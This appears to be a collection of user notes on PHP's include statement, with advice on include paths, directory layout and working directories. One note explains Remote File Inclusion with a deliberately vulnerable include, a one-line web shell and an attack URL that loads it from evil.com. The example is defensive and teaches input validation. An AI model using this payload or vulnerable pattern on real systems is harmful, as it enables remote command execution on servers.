 # Security warning



This might be useful:<br>

```
<?php
include $_SERVER['DOCUMENT_ROOT']."/lib/sample.lib.php";
?>
```
<br>So you can move script anywhere in web-project tree without changes.  

#

If you want to have include files, but do not want them to be accessible directly from the client side, please, please, for the love of keyboard, do not do this:<br><br>

```
<?php

# index.php
define('what', 'ever');
include 'includeFile.php';

# includeFile.php

// check if what is defined and die if not

?>
```


The reason you should not do this is because there is a better option available. Move the includeFile(s) out of the document root of your project. So if the document root of your project is at "/usr/share/nginx/html", keep the include files in "/usr/share/nginx/src".



```
<?php

# index.php (in document root (/usr/share/nginx/html))

include __DIR__ . '/../src/includeFile.php';

?>
```
<br><br>Since user can&apos;t type &apos;your.site/../src/includeFile.php&apos;, your includeFile(s) would not be accessible to the user directly.  

#

Before using php&apos;s include, require, include_once or require_once statements, you should learn more about Local File Inclusion (also known as LFI) and Remote File Inclusion (also known as RFI).<br><br>As example #3 points out, it is possible to include a php file from a remote server.<br><br>The LFI and RFI vulnerabilities occur when you use an input variable in the include statement without proper input validation.  Suppose you have an example.php with code:<br><br>

```
<?php
// Bad Code
$path = $_GET['path'];
include $path . 'example-config-file.php';
?>
```


As a programmer, you might expect the user to browse to the path that you specify.

However, it opens up an RFI vulnerability.  To exploit it as an attacker, I would first setup an evil text file with php code on my evil.com domain.

evil.txt


```
<?php echo shell_exec($_GET['command']);?>
```
<br><br>It is a text file so it would not be processed on my server but on the target/victim server.  I would browse to:<br>h t t p : / / w w w .example.com/example.php?command=whoami&amp; path= h t t p : / / w w w .evil.com/evil.txt%00<br><br>The example.php would download my evil.txt and process the operating system command that I passed in as the command variable.  In this case, it is whoami.  I ended the path variable with a %00, which is the null character.  The original include statement in the example.php would ignore the rest of the line.  It should tell me who the web server is running as.<br><br>Please use proper input validation if you use variables in an include statement.  

#

I cannot emphasize enough knowing the active working directory. Find it by: echo getcwd();<br>Remember that if file A includes file B, and B includes file C; the include path in B should take into account that A, not B, is the active working directory.  

#

As a rule of thumb, never include files using relative paths. To do this efficiently, you can define constants as follows:<br><br>----<br>

```
<?php // prepend.php - autoprepended at the top of your tree
define('MAINDIR',dirname(__FILE__) . '/');
define('DL_DIR',MAINDIR . 'downloads/');
define('LIB_DIR',MAINDIR . 'lib/');
?>
```

----

and so on. This way, the files in your framework will only have to issue statements such as this:



```
<?php
require_once(LIB_DIR . 'excel_functions.php');
?>
```


This also frees you from having to check the include path each time you do an include.

If you're running scripts from below your main web directory, put a prepend.php file in each subdirectory:

--


```
<?php
include(dirname(dirname(__FILE__)) . '/prepend.php');
?>
```
<br>--<br><br>This way, the prepend.php at the top always gets executed and you&apos;ll have no path handling headaches. Just remember to set the auto_prepend_file directive on your .htaccess files for each subdirectory where you have web-accessible scripts.  

#

[Official documentation page](https://www.php.net/manual/en/function.include.php)

**[To root](/README.md)**